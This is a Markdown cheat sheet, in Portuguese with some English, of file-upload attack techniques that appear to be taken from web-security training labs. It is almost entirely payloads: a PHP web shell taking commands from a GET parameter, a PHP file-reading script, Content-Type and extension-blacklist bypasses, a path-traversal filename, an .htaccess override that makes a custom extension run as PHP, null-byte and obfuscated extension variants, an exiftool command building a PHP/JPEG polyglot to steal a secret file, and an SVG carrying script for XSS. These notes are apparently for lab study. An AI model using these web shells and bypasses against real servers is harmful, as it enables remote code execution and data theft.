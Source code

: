 # Vulnerabilidades de Upload de Arquivo

Normalmente surge no upload de avatar em `/my-account`.

Arquivo malicioso para ler conteúdo:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Arquivo malicioso com WebShell:
```
<?php echo system($_GET['command']); ?>

GET /example/exploit.php?command=id HTTP/1.1
```

<br>
<br>

**Web Shell Upload via Content-Type Restriction Bypass**

Upload malicious file and change Content-Type to `image/jpeg`.

<br>
<br

**Web Shell Upload via Path Traversal**

Explore Path Traversal para subir um arquivo para o diretório anterior:
```
filename="..%2fexploit.php"
```

E o acesse em: `GET /files/exploit.php?command=ls`.

<br>
<br>

**Web Shell Upload via Extension Blacklist Bypass**

A extensão `.php` está bloqueada, mas ainda é possível utilizar a extensão `.phar`.

Essa laboratório também ensina como você pode sobescrever o arquivo .htaccess com:
```
AddType application/x-httpd-php .l33t
```

Dessa maneira, ao subir uma extensão .l33t, o servidor interpretá como PHP.

<br>
<br>

**Web Shell Upload via Obfuscated File Extension**

Utilize um null byte para o bypass:
```
rce.php%00.jpg
```

Outros bypasses:
```
exploit.pHp
exploit.php.jpg
exploit.jpg.php
exploit.php.
exploit%2Ephp
exploit.p.phphp

exploit.asp;.jpg
exploit.asp%00.jpg
```

<br>
<br>

**Remote Code Execution via Polyglot Web Shell Upload**

Faça upload de um arquivo poliglota PHP/JPG que é uma imagem com código PHP em seus metadados.
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.jpeg -o polyglot.php
```

<br>

### Outros
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```
